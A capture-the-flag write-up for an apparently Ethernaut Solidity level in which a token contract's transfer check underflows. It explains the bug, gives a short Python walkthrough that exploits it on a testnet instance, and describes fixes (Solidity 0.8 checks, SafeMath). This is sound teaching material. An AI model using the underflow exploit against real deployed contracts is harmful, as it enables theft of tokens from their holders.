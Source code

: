 # 05 - Token

## Challenge

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

Things that might help:

- What is an odometer?

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

## Summary

The contract looks quite normal. Upon constructed, 20 tokens are given to our account's balance (`await contract.balanceOf(player)` will return 20). The `transfer` function first checks if the sender has enough tokens to transfer, and then transfer the tokens.

Challenge hints about searching about properties of odometer:

![Example odometer](https://media.hswstatic.com/eyJidWNrZXQiOiJjb250ZW50Lmhzd3N0YXRpYy5jb20iLCJrZXkiOiJnaWZcL29kb21ldGVyLmpwZyIsImVkaXRzIjp7InJlc2l6ZSI6eyJ3aWR0aCI6ODI4fSwidG9Gb3JtYXQiOiJhdmlmIn19)

As we can see, after reaching the maximum reading, an odometer restarts from zero, which is called odometer rollover. This gives a hint to integer overflow/underflow. More specifically, underflow is the case here.

Explanation: We know `_value` is an uint, which must satisfy `balances[msg.sender] - _value >= 0`. If we can make `_value` larger than balance (e.g. 21), the subtraction will result in a negative number. In Solidity, this will cause integer underflow and the result will be a very big uint number, which will pass the check.

> An overflow is when a number gets incremented above its maximum value. Solidity can handle up to 256 bit numbers (up to `2^256-1`), so incrementing by 1 would result into 0.
>
> Likewise, in the inverse case, when the number is unsigned, decrementing will underflow the number, resulting in the maximum possible value.

```
  0x000000000000000000000000000000000000
- 0x000000000000000000000000000000000001
----------------------------------------
= 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF
```

As such, we can easily solve the level by calling `transfer` with 21 tokens.

## Walkthrough

```py
>>> from cheb3 import Connection
>>> from cheb3.utils import compile_sol
>>> conn = Connection("https://goerli.infura.io/v3/<key>")
>>> account = conn.account("<priv_key>")
>>> contract_addr = '0x2ff619001B658908BA25b34FCec75F87668C751d'
>>>
>>> account.send_transaction(contract_addr, data=encode_with_signature("transfer(address,uint256)", "0x0000000000000000000000000000000000000000", 21))
2023-06-05 22:23:26.008 | INFO     | cheb3.account:send_transaction:103 - Transaction to 0x2ff619001B658908BA25b34FCec75F87668C751d: 0x0d6337c49d15f449b4a232a8c640137e5c82423ee2d5d80869a7fa407107e53f
AttributeDict({'blockHash': HexBytes('0xcf1724fa2b1de4e93bf37c7fef37c29733e2e4bc294478de03c836ef83b3d905'), 'blockNumber': 9130839, 'contractAddress': None, 'cumulativeGasUsed': 10661304, 'effectiveGasPrice': 9000, 'from': '0x0b26C24d538e3dfF58F7c733535e65a6674FB3aB', 'gasUsed': 31800, 'logs': [], 'logsBloom': HexBytes('0x00..00'), 'status': 1, 'to': '0x2ff619001B658908BA25b34FCec75F87668C751d', 'transactionHash': HexBytes('0x0d6337c49d15f449b4a232a8c640137e5c82423ee2d5d80869a7fa407107e53f'), 'transactionIndex': 69, 'type': 0})
```

Note that we used "0x0000000000000000000000000000000000000000" as `_to` address, but it can be anything except `player` since that will make our balance unchanged. Finally, submit the instance to pass the level.

## Afterword

In Solidity ^0.8.0, math overflows revert by default. 

Of course, in older versions, you can use OpenZeppelin's `SafeMath` library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:

```js
a = a.add(c);
```

If there is an overflow, the code will revert.